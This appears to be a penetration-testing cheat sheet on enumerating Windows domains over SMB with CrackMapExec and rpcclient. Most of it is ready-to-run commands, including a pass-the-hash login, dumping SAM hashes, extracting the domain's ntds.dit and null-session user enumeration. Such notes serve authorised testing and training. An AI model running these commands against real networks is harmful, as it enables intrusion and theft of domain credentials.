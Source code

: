 #### crackmapexec

[CrackMapExec](crackmapexec.md):

```shell-session
# This is a useful tool that will also show the badpwdcount
crackmapexec smb $ip --users

# Also, if we have valid credentials, we could extract the users with the flag --users
sudo crackmapexec smb $ip -u $username -p $password --users
```

As a matter of fact, if we have a foothold on the domain, we could perform the following enumeration:

```powershell
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Using a hash instead of a password, to authenticate ourselves: Pass the hash attack (PtH)
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions


# Get sam: extract hashes from all users authenticated in the machine 
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Enumerate logged on users in other hosts of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Enumerate users of the domain
sudo crackmapexec smb  $ip -u <username> -p <password> -d <DOMAIN> --users

crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate groups of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --groups

```

#### rpcclient

[rpcclient](rpcclient.md) and the  SMB NULL session technique:

```shell-session
# Connect to a remote shared folder (same as smbclient in this regard)
rpcclient -U "" -N $ip

# Enumerate all domains that are deployed in the network 
enumdomains

# Provides domain, server, and user information of deployed domains.
querydominfo

# Enumerates all domain users.
enumdomusers
```
